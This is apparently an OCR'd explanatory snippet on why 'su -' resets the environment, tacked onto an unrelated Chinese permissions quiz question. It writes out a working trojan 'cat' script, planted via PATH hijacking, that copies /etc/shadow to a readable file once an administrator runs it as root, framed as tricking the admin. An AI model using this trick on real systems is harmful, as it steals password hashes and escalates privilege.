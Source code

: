 
su - invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

su just switches the user, providing a normal shell with an environment nearly the same as with the old user.

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.
```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
```
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

```bash
$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
```

If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

```bash
$ su
Password: ...
# cat /home/you/dummy_file
Some important dummy stuff in that file.
# exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
```
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.
```


```bash
38、/etc/fstab复制到/data/dir，至少需要什么权限？ 
1）cp命令 有执行权限 
2）/etc目录有执行权限，fstab读权限 
3）/data目录有执行权限，dir目录有执行和写权限
```

